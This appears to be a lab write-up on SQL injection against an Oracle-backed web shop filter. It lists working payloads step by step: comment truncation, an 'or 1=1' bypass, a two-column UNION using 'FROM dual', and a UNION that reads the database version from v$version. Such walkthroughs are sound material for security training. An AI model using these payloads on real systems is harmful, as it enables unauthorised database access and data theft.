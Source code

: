 ![img](media/591a71750993add7f9f72fb524438d2d.png)

We find these payload are valid to display the 4 posts in Gifts and the second
all the items:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'--
/filter?category=Gifts'+or+1=1--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Also, that there are 2 columns returned by the query and we can do a UNION
attack with the payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+NULL,NULL+FROM+dual-- 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We are adding the “FROM dual” because it is necessary in Oracle.

To display the version we need to execute one of these:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT banner FROM v$version
SELECT version FROM v$instance
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+'1',banner+FROM+v$version-- 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
